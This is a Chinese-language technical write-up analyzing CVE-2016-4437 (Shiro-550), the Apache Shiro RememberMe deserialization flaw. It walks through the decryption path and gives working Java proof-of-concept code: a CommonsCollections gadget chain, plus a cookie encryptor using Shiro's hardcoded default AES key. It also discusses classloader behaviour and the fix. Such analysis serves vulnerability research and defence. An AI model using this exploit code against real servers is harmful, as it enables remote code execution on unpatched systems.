# CVE-2016-4437漏洞分析

## 前言

CVE-2016-4437 是 Shiro 历史漏洞中比较著名的一个，官方编号为 Shiro-550。

影响版本：Shiro  < 1.2.5

漏洞描述：如果程序未能正确配置 “remember me” 功能所使用的密钥。攻击者可通过发送带有特制参数的请求利用该漏洞执行任意代码或访问受限制内容。

## 前置知识

Shiro 在 0.9 版本开始提供 RememberMe 模块，用于应用程序记录登录用户凭证的功能。

### RememberMeManager

`org.apache.shiro.mgt.RememberMeManager`接口提供了以下五个方法：

- `getRememberedPrincipals()`：RememberMe 的功能，在指定上下文中寻找记录的`principals`。
- `forgetIdentity()`：忘记用户身份标识。
- `onSuccessfulLogin()`：登录校验成功时调用，保存当前用户的`principals`以供应用程序以后调用。
- `onFailedLogin()`：登录校验失败时调用，忘记当前用户的`principals`。
- `onLogout()`：用户退出登录时调用，忘记当前用户的`principals`。

### AbstractRememberMeManager

`org.apache.shiro.mgt.AbstractRememberMeManager`是实现`RememberMeManger`接口类的抽象类，这里有几个比较重要的成员变量需要了解：

- ` DEFAULT_CIPHER_KEY_BYTES`：一个硬编码 AES KEY，该 KEY 会被设置为加解密 KEY 的成员变量（encryptionCipherKey/decryptionCipherKey）。
- `serializer`：Shiro 的序列化器，用来对序列化和反序列化标识用户身份的`PrincipalCollection`对象。
- `cipherService`：用于数据加解密的类，实际上是`org.apache.shiro.crypto.AesCipherService`类。

### CookieRememberMeManager

`org.apache.shiro.web.mgt.CookieRememberMeManager`类在 Shiro 中实现使用 Cookie 记录用户身份信息的功能，比较值得关注的方法为`getRememberedSerializedIdentity()`：

```java
protected byte[] getRememberedSerializedIdentity(SubjectContext subjectContext) {
        if (!WebUtils.isHttp(subjectContext)) {
            if (log.isDebugEnabled()) {
                String msg = "SubjectContext argument is not an HTTP-aware instance.  This is required to obtain a servlet request and response in order to retrieve the rememberMe cookie. Returning immediately and ignoring rememberMe operation.";
                log.debug(msg);
            }

            return null;
        } else {
            WebSubjectContext wsc = (WebSubjectContext)subjectContext;
            if (this.isIdentityRemoved(wsc)) {
                return null;
            } else {
                HttpServletRequest request = WebUtils.getHttpRequest(wsc);
                HttpServletResponse response = WebUtils.getHttpResponse(wsc);
                String base64 = this.getCookie().readValue(request, response);
                if ("deleteMe".equals(base64)) {
                    return null;
                } else if (base64 != null) {
                    base64 = this.ensurePadding(base64);
                    if (log.isTraceEnabled()) {
                        log.trace("Acquired Base64 encoded identity [" + base64 + "]");
                    }

                    byte[] decoded = Base64.decode(base64);
                    if (log.isTraceEnabled()) {
                        log.trace("Base64 decoded byte array length: " + (decoded != null ? decoded.length : 0) + " bytes.");
                    }

                    return decoded;
                } else {
                    return null;
                }
            }
        }
    }
```

在该方法中，主要实现了获取 Cookie 中的内容并通过 Base64 解码，然后返回 byte 数组的功能。

## 漏洞分析

漏洞环境已经上传到 github 中：https://github.com/dota-st/vulnEnv

先简单了解一下该漏洞的原理：

当用户登录勾选`remember me`的时候，Shiro 会将当前用户的 Cookie 信息序列化后进行 AES 加密存储在 Cookie 的 RememberMe 字段中，在下次请求时会读取 Cookie 中的 RememberMe 字段并进行 AES 解密然后反序列化。


然而通过前面的`AbstractRememberMeManager`类我们知道，AES 加解密的 KEY 是硬编码在该类中的，因此当我们知道 KEY之后，可以伪造 RememberMe 字段进而触发反序列化漏洞。

那么我们便开始一步步跟着调试吧，打上断点，在 Cookie 添加 RememberMe 字段然后发送请求。

在`	#getRememberedPrincipals()`方法中将上下文数据传入到`getRememberedSerializedIdentity()`方法中


接着会跳转到`CookieRememberMeManager#getRememberedSerializedIdentity()`方法中


可以看到`readValue()`方法会从请求中获取`RememberMe`字段的值，最后通过`Base64.decode()`解码后返回 byte 数组，接着又回到`getRememberedPrincipals()`方法


继续跟进`convertBytesToPrincipals()`方法，调用`decrypt()`方法进行解密


继续跟进`decrypt()`方法


这里调用到`getDecryptionCipherKey()`方法，我们跟进一下


这里到了`AbstractRememberMeManager#getDecryptionCipherKey()`方法，前面我们提到过该类，在这里获取到了硬编码的秘钥。

接着`decrypt()`方法走完 return 了`serialized`字节数组，最后调用了`deserialize()`方法


继续跟进`deserialize()`方法，跟着调用了`getSerializer().deserialize()`方法


继续跟进`getSerializer().deserialize()`方法


可以看到，这里通过`ByteArrayInputStream()`获取了输入流，最后调用`readObject()`方法进行反序列化。

回顾梳理一下流程：

1. 传入`RememberMe`字段，获取该字段的值；
2. 对`RememberMe`进行 Base64 解码，然后调用硬编码的 KEY 进行解密；
3. 对解密后的内容进行反序列化。

## 编写 POC

在 pom.xml 文件里添加了`CommonCollections`和`javassist`依赖，以完成反序列化的利用演示。


这里通过前面我们学习的`CommonsCollections11`链子生成恶意文件
```java
package com.serialize;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

/**
 * Created by dotast on 2022/10/12 15:50
 */
public class CommonsCollections11 {
    public static void main(String[] args) throws Exception{
        CommonsCollections11 commonsCollections11 = new CommonsCollections11();
        commonsCollections11.serialize();
    }
    public void serialize() throws Exception{
        String cmd = "Runtime.getRuntime().exec(\"open -a Calculator.app\");";
        // 创建evailClass
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass evailClass = pool.makeClass("evailClass");
        // 将代码插进static{}
        evailClass.makeClassInitializer().insertBefore(cmd);
        evailClass.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        // 转换成字节码
        byte[] classBytes = evailClass.toBytecode();
        byte[][] targetByteCodes = new byte[][]{classBytes};
        // 反射修改
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        Field bytecodes = templates.getClass().getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        bytecodes.set(templates, targetByteCodes);

        Field name = templates.getClass().getDeclaredField("_name");
        name.setAccessible(true);
        name.set(templates, "name");

        Field _class = templates.getClass().getDeclaredField("_class");
        _class.setAccessible(true);
        _class.set(templates, null);

        // 创建恶意的调用链
        InvokerTransformer invokerTransformer = new InvokerTransformer("toString",new Class[0], new Object[0]);
        Map innerMap = new HashMap<>();
        Map outerMap = LazyMap.decorate(innerMap, invokerTransformer);
        // 创建TiedMapEntry实例
        TiedMapEntry tiedMapEntry = new TiedMapEntry(outerMap,templates);
        Map expMap = new HashMap<>();
        expMap.put(tiedMapEntry,"valueTest");
        outerMap.remove(templates);
        // 通过反射修改iMethodName值为newTransformer
        Field f = invokerTransformer.getClass().getDeclaredField("iMethodName");
        f.setAccessible(true);
        f.set(invokerTransformer, "newTransformer");
        FileOutputStream fileOutputStream = new FileOutputStream("1.txt");
        // 创建并实例化对象输出流
        ObjectOutputStream out = new ObjectOutputStream(fileOutputStream);
        out.writeObject(expMap);

    }
    
}
```

根据对应的`AbstractRememberMeManager#encrypt()`方法编写加密
```java
package com.shiro;

import com.sun.org.apache.xerces.internal.impl.dv.util.Base64;
import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.util.ByteSource;

import java.io.ByteArrayOutputStream;
import java.io.FileInputStream;
import java.io.InputStream;

/**
 * Created by dotast on 2022/10/10 10:45
 */
public class Shiro550 {
    public static void main(String[] args) throws Exception {
        String path = "1.txt";
        byte[] key = Base64.decode("kPH+bIxk5D2deZiIxcaaaA==");
        AesCipherService aes = new AesCipherService();
        ByteSource ciphertext = aes.encrypt(getBytes(path), key);
        System.out.printf(ciphertext.toString());
    }


    public static byte[] getBytes(String path) throws Exception{
        InputStream inputStream = new FileInputStream(path);
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        int n = 0;
        while ((n=inputStream.read())!=-1){
            byteArrayOutputStream.write(n);
        }
        byte[] bytes = byteArrayOutputStream.toByteArray();
        return bytes;

    }
}
```

运行后获得构造的恶意`RememberMe`字段内容，添加到 Cookie 中发送请求，成功弹出计算器。


## Shiro 与 CC6

在`Commons-Collections11`的时候曾提过`Commons-Collections6`这条链子在 shiro 中使用会报错，但如果你用`Commons-Collections6`生成的 POC 在我上面搭的环境会发现依然能正常弹出计算器，并没有出现报错，这是为什么呢？

在上述环境使用的依赖是`shiro-spring`，也就是用 Spring-boot 构建的 Shiro
```
<dependency>
            <groupId>org.apache.shiro</groupId>
            <artifactId>shiro-spring</artifactId>
            <version>1.2.4</version>
</dependency>
```

Shiro 的原生依赖只用到了：`shiro-core`和`shiro-web`，那么`Spring`构建的`Shiro`和原生的`Shiro`有什么不同呢？

我们使用原生环境调调看，这里直接去 Shiro 的仓库下载，然后修改一下 pom.xml 文件即可，下面用到的环境也上传到前面提到的 github 仓库了。运行后访问主页，使用`CommonCollections6`的 POC 发送请求


并没有弹出计算器，再回来看看 idea


报错了，具体错误如下：
```
Caused by: org.apache.shiro.util.UnknownClassException: Unable to load class named [[Lorg.apache.commons.collections.Transformer;] from the thread context, current, or system/application ClassLoaders.  All heuristics have been exhausted.  Class could not be found.
```

翻译过来大体意思就是`Transformer`类找不到，我们跟一下反序列化的入口点看看


这里可以看到最后用的是`ClassResolvingObjectInputStream`类返回输入流，而不是常规的`ObjectInputStream`类，跟进该类


在`ClassResolvingObjectInputStream`类中继承了`ObjectInputStream`类并且重写了`resolveClass()`方法，跟进`ClassUtils.forName()方法`
又继续调用了`loadClass()`方法，其中参数值为`[Lorg.apache.commons.collections.Transformer;`

这里的格式是`JNI`字段描述符，`[`表示数组，`L`代表类描述符，`;`表示类名到这里结束。

接着继续跟进`loadClass()`方法


可以看到这里调用的`ClassLoader`为`ParallerWebappClassLoader`，接着到`loadClass()`方法，这里接着跟进需要添加 tomcat 的源码才能继续进行调试（这里是偷懒做法，如果想食用更佳，移步[Tomcat源码调试](../../环境&其他/Tomcat源码调试/Tomcat源码调试.md)）


导入 tomcat 的 jar 包之后继续跟进`loadClass()`方法进入到了`WebappClassLoaderBase#loadClass()`


玩下走到`findLoadedClass0()`方法


`findLoadedClass0()`方法去缓存中查找是否存在，从跟的结果上得到是不存在，继续往下走到` this.findLoadedClass()`方法


依然为null，后面的跟着几个方法都是为 null，我们略去，到最后一步关键处，也就是到了`Class.forName()`方法


这里可以看到，此时的父加载器为`URLClassLoader`


其中`ucp`是`URLClassLoader`类的字段，`ucp`的成员`path`是一个 ArrayList 对象，存储着类的搜索路径。而这里这些路径全都是 tomcat 下的 lib 目录文件，并没有`commons-collections`的依赖文件。

下面贴上在`Class.forName()`方法后的 debug 过程视频（因为写成文字描述过于繁琐就贴上视频）

https://user-images.githubusercontent.com/72428049/197333910-de821106-9403-4708-9f25-6604bff13485.mp4

在 debug 视频中可以看到，传进`Class.forName()`方法的参数 name 为`[Lorg.apache.commons.collections.Transformer;`，接着后面走到`findLoadedClass()`方法时还原成了正常的`org.apache.commons.collections.Transformer`，因此有些文章在跟到前面时就断定是先前的`[Lorgxxx`格式导致无法找到的结论并不准确，这并不是最终过程。

此外，可以看到`ClassLoader`的加载过程为`AppClassLoader` --> `ExtClassLoader` --> `BootstrapClassLoa·der`，均搜索不到`org.apache.commons.collections.Transformer`。

搜索不到后抛出`ClassNotFoundException`的异常



因此和之前的报错对应上了，那么为什么 spring 构建的 shiro 没有报错正常弹出计算器了呢？

我们继续调试一下


在该环境中，加载的`ClassLoader`为`TomcatEmbeddedWebappClassLoader`，而不是之前 shiro 原生环境的`ParallerWebappClassLoader`。

继续跟进`loadClass()`方法，跳到了`TomcatEmbeddedWebappClassLoader#loadClass()`方法


继续往下走，直到`Class.forName()`方法


可以看到此时的父加载器为`AppClassLoader`系统类加载器，再看看此时的 path


此时的 path 不再是 tomcat 下的，而是 java 环境中的，包含了`commons-collections`依赖，因此可以成功加载到


这也解释了为什么在 spring 构建的 Shiro 环境中`Commons-Collections6`可以打成功，而原生的 Shiro 环境却报错失败的情况。

至于为什么 path 会不一样，父类加载器也不一样，尝试跟了一下，实在过于复杂，遂暂时放弃，调试到此。

等哪一天知识储备足够了，再来解惑。

## 漏洞修复

在 Shiro 1.2.5 版本的更新中，用户需要手动配置 CipherKey，如果不设置，将会动态生成一个 CipherKey。但反序列化流程没有修改，这也是 Shiro 至今依然在各大 HW 演练中频繁出现的原因。
